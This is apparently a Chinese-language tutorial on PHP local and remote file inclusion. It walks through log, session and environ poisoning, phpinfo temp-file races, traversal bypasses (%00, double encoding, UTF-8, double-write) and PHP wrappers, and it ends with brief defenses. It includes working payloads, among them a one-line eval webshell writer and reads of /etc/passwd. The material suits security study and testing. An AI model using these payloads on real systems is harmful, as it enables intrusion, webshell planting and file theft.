

文件包含
由于本人接触到的文件包含大多是php有关的，故本文是关于php文件包含。
1.基础知识
1.产生原因
服务器通过PHP的特性（函数）去包含任意文件时，由于要包含的这个文件来源过滤不严，从而可以去包含一个恶意文件，而我们可以构造这个恶意文件来达到攻击的目的。
2.相关函数
include(),include_once(),require()和require_once()
include(),include_once()在包含文件时，即使遇到错误，下面的代码依然会继续执行；
require()和require_once()则会报错，直接退出程序。
ASP：include file()、include virtual()
JSP/Servlet：ava.io.file()、java.io.filereader()
3.检测
1.白盒测试
也就是代码审计
2.黑盒测试
1.漏扫工具进行扫描
2.公开漏洞进行测试
3.手工看参数值以及功能点
2.文件包含分类
1.本地文件包含(LFI)
1.利用条件
(1)、allow_url_fopen=On
(2)、用户可以动态控制变量
allow_url_fopen一直默认On
2.无限制本地文件包含
无限制本地文件包含就是指可以包含本机任意路径的文件。
1.常见敏感路径
windows系统
1 | c:\boot.ini // 查看系统版本 |
linux系统
1 | /root/.ssh/authorized_keys |
2.包含session文件
前提：session文件路径已知，且session文件中部分内容可控(比如知道写入的马子方便后续利用)
session路径：可在phpinfo的session.save_path看到
默认路径：
1 | /var/lib/php/sess_PHPSESSID |
session的文件名格式为sess_[phpsessid]。而phpsessid在发送的请求的cookie字段中可以看到。

利用
尽力向session文件中写入你的马子！然后再进行 包含执行。
栗子
现在有一个session.php可控用户会话信息值
可以看到这个session.php文件中的用户会话信息username的值是用户可控制的，那我们就可以传入恶意代码进行攻击利用
将恶意代码传入以后，接下来就要利用文件包含漏洞去包含这个恶意代码。
返回结果来看，我们的payload和恶意代码已经正常解析和执行。
3.包含日志
1.服务器日志
条件：需要知道服务器日志的存储路径，且日志文件可读。
默认路径
1 | 1.apache+Linux日志默认路径：/etc/httpd/logs/access*log或/var/log/httpd/access*log |
利用
1.多数情况，web服务器会将请求写入到日志文件中，比如说apache。在用户发起请求时，会将请求写入access.log，当发生错误时将错误写入error.log。默认情况下，日志保存路径在/etc/httpd/logs/下。
2.但如果是直接发起请求，会导致一些符号被编码使得包含无法正确解析。可以使用burp截包后修改。
3.正常的php代码已经写入了 /etc/httpd/logs/access.log。然后包含即可执行代码。
4.但有的时候，log的存放地址会被更改。这个时候可以通过读取相应的配置文件后，再进行包含。
中间件默认配置文件存放路径
1 | 1.apache+linux 默认配置文件 |
2.SSH log
条件：需要知道ssh-log的位置，且可读。
ssh日志默认路径：
1./var/log/auth.log
2./var/log/secure
利用：
1.用ssh连接：
ssh ‘‘@remotehost
之后会提示输入密码，随便输入就可以。

2.然后利用文件包含，包含日志文件：
3.mysql日志
这个在后面的文章中有写到，就不再重复了。
4.包含上传文件
这个就是最基础的了，千变万化，在文件上传中有讲过~
大致就是上传一个文件，知道路径，再包含。。。
5.包含environ
条件：
- php以cgi方式运行，这样environ才会保持UA头。
- environ文件存储位置已知，且environ文件可读。
默认位置：
1 | proc/self/environ |
利用：
1.proc/self/environ中会保存user-agent头。如果在user-agent中插入php代码，则php代码会被写入到environ中。之后再包含它，即可。
2.例如我们现在访问一个网站，使用burpsuite抓包，将恶意代码插入到user-agent中。
3.利用文件包含漏洞去包含proc/self/environ，成功执行php代码。
6.包含临时文件
php中上传文件，会创建临时文件。在linux下使用/tmp目录，而在windows下使用c:\winsdows\temp目录。在临时文件被删除之前，利用竞争即可包含该临时文件。有三种方法
由于包含需要知道包含的文件名。第一种方法是进行暴力猜解，linux下使用的随机函数有缺陷，而window下只有65535中不同的文件名，所以这个方法是可行的。
第二种方法是竞争时间去包含，参考XMAN夏令营-2017-babyweb-writeup
第三种方法就是结合phpinfo页面的php variables，可以直接获取到上传文件的存储路径和临时文件名。所以本节就介绍利用phpinfo页面来进行文件包含。
条件：存在phpinfo页面并且存在文件包含漏洞
原理：
- 当我们给PHP发送POST数据包时，如果数据包里包含文件区块，PHP就会将文件保存成一个临时文件，路径通常为：/tmp/php[6个随机字符],这个临时文件，在请求结束后就会被删除。
- 因为phpinfo页面会将请求上下文中的所有变量打出来，所以我们如果向phpinfo页面发送包含文件区块的数据包，就可以在返回包里找到临时文件名，也就是$_FILES变量中的内容。
利用：
1.首先我们使用vulhub的脚本（https://github.com/vulhub/vulhub/blob/master/php/inclusion/exp.py），他可以实现包含临时文件，而这个临时文件的内容是：`‘)?>。成功包含这个文件后就会生成新的文件/tmp/g`，这个文件就会永久的留在目标机器上。
2.写入成功以后，我们利用文件包含来执行任意命令。
此脚本原理
- 首先发送包含webshell的数据包给phpinfo页面，并用大量的垃圾数据将header和get等位置填满。
- 因phpinfo页面会将所有数据打印出来，第一个步骤中的垃圾数据就会将phpinfo页面撑的非常大。而php默认输出缓冲区大小为4096，也可以理解为php每次返回4096个字节给socket连接。
- 所以，这里直接操作原生socket，每次读取4096个字节。只要我们读取到字节里包含临时文件名，就立刻发送文件包含漏洞利用的数据包。因为第一个数据包的socket连接没有结束，所以临时文件还没有删除，我们就可以文件包含成功。
3.有限制本地文件包含
所谓有限制本地文件包含，就是指后台在处理文件的时候增加了安全措施，而这些措施的绕过是很麻烦的，所以简单讲一下几种最常用也是最基础的方法。
%00截断
条件：php < 5.34，magic_quotes_gpc = Off
在文件包含中一般情况下是因为后端代码指定了包含的文件的扩展名，因此如果想要包含任意文件我们需要截断后面的内容
后端示例：
1 | <wyn><?php include($_GET['filename'] . 'php');?></wyn> |
然后我们就可以使用payload：../../../../etc/passwd%00
也可以使用垃圾数据填充. ./，不过Windows需要点号长于256，Linux需要长于4096
也可用?和#绕过
url二次编码
如果后端对用户的输入进行URL解码后再包含的话（类似下面的代码），就有可能利用url二次编码来绕过前面的过滤
1 | <wyn><?php include(urldecode($_GET['file']));?></wyn> |
我们先看一下利用的payload：%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
payload先被浏览器进行一次url解码，%25对应%，此时payload变为：%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
之后又被php进行一次url解码，%2e对应.，%2f对应/，因此最后包含的就是../../../etc/passwd
UTF-8
这个是apache tomcat的洞(好像是java的锅)，可以使用UTF-8来进行目录遍历：
受影响版本：Apache Tomcat 6.x、Apache Tomcat 5.x、Apache Tomcat 4.x
payload：%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
双写等tricks
有时候后端代码写的不严谨的时候，就很有可能存在绕过，比如使用str_replace()将../替换为空时，可以使用双写绕过：..././..././..././etc/passwd
具体还要根据实际过滤情况来绕过
路径长度截断
当php < 5.2.8时，可以重复使用./或.来进行截断，linux下需要长度大于4096，windows下需要大于256
1 | ../../../../etc/passwd/./././././[...]./././././ |
bypass allow_url_include/fopen = Off
该方法可以绕过allow_url_include = Off和allow_url_fopen = Off的情况，包含smb共享服务中的文件，但只适用于Windows的服务器，而且国内很多运营商都默认关闭了445端口，所以还是稍微鸡肋了点
SMB的环境搭建可以看这里：Linux SMB bypass RFI
首先在smb共享文件夹下放置你的马子
然后在本地包含smb服务的文件即可：?file=\\url\phpinfo.txt
2.远程文件包含(RFI)
1.利用条件
(1)、allow_url_include=On
(2)、allow_url_fopen=On
(3)、用户可以动态控制变量
PHP 5.2开始allow_url_include就默认为Off的，而allow_url_fopen一直默认都是On的。
2.无限制远程文件包含
用法：?file=vps-ip/ma
3.有限制远程文件包含
绕过和有限制本地文件包含差不多
3.PHP伪协议
可用于类似 fopen()、 copy()、 file_exists() 和 filesize() 的文件系统函数。 除了这些封装协议，还能通过 stream_wrapper_register() 来注册自定义的封装协议。和javascript在浏览器中实现的一些的伪协议类似，PHP的伪协议提供了另一种”非常规”的方式进行数据的输入、输出。
PHP版本：>=5.2
详细解释参考官网：https://www.php.net/manual/zh/wrappers.php
https://www.cnblogs.com/endust/p/11804767.html
file:// — 访问本地文件系统
条件
1、allow_url_fopen ：off/on 、allow_url_include：off/on
2、必须要用绝对路径，而且可以读取文件
3、文件内容不能是php代码形式（这点要切记，非常容易犯错）否则会被直接解析。如果不是php代码的内容会被直接显示出来。
用法：?file=file://c/boot.ini
http:// — 访问 HTTP(s) 网址
ftp:// — 访问 FTP(s) URLs
php:// — 访问各个输入/输出流（I/O streams）
条件
1、不需要开启allow_url_fopen，仅php://input、 php://stdin、 php://memory 和 php://temp 需要开启allow_url_include。
2、php://filter :allow_url_fopen ：off/on 、allow_url_include：off/on。PHP代码读取需要编码否则直接执行php代码
3、常用来读取代码的包含命令 php://filter/read=convert.base64-encode/resource=./cmd.php
4、利用 php 的数据协议 data:// 可以查看文件源代码，前提是 php.ini 中的 allow_url_fopen 和 allow_url_include 两个配置为 on
用法：?file=php://input 数据利用POST传过去
1.php://input （读取POST数据）
碰到file_get_contents()就要想到用php://input绕过，因为php伪协议也是可以利用http协议的，即可以使用POST方式传数据，具体函数意义下一项；
测试代码：
1 | <?php |
测试结果：
2.php://input（写入木马）
测试代码：
1 | <?php |
条件：php配置文件中需同时开启 allow_url_fopen 和 allow_url_include（PHP < 5.3.0）,就可以造成任意代码执行，在这可以理解成远程文件包含漏洞（RFI），即POST过去PHP代码，即可执行。
如果POST的数据是执行写入一句话木马的PHP代码，就会在当前目录下写入一个木马。
1 | <?PHP fputs(fopen('shell.php','w'),'<?php @eval($_POST[cmd])?>');?> |
如果不开启allow_url_include会报错：
3.php://input（命令执行）
测试代码：
1 | <?php |
条件：php配置文件中需同时开启 allow_url_fopen 和 allow_url_include（PHP < 5.30）,就可以造成任意代码执行，在这可以理解成远程文件包含漏洞（RFI），即POST过去PHP代码，即可执行；
如果不开启allow_url_include会报错：
zip:// — 压缩流
allow_url_fopen ：off/on 、allow_url_include：off/on
zip伪协议和phar协议类似，但是用法不一样。
用法：?file=zip://[压缩文件绝对路径]#[压缩文件内的子文件名] zip://xxx.png#shell.php。
条件： PHP > =5.3.0，注意在windows下测试要5.3.0<PHP<5.4 才可以 #在浏览器中要编码为%23，否则浏览器默认不会传输特殊字符。
data:// — 数据（RFC 2397）
allow_url 两个都需要 On (没用，都为on我直接就去php://input getshell了)
和php伪协议的input类似，碰到file_get_contents()来用；
如果php.ini里的allow_url_include=On（PHP < 5.3.0）,就可以造成任意代码执行，同理在这就可以理解成远程文件包含漏洞（RFI） 测试代码
例子：data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg （phpinfo)(另外data:text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg （phpinfo))
也可：data://text/plain,
或者 data:text/plain,
glob:// — 查找匹配的文件路径模式
phar:// — PHP 归档
allow 两个都为ON 并且PHP版本高于5.3
例子：http://127.0.0.1/file.php?file=phar://phartest2.zip/a.jpg 和zip伪协议是一样的用法
生成phar打包代码：
1 | PHP |
ssh2:// — Secure Shell 2
rar:// — RAR
ogg:// — 音频流
expect:// — 处理交互式的流
3.防御姿势
1.设置白名单
2.过滤危险字符
3.设置目录文件：open_basedir
4.关闭allow_url_include（默认关闭）
5.WAF产品
参考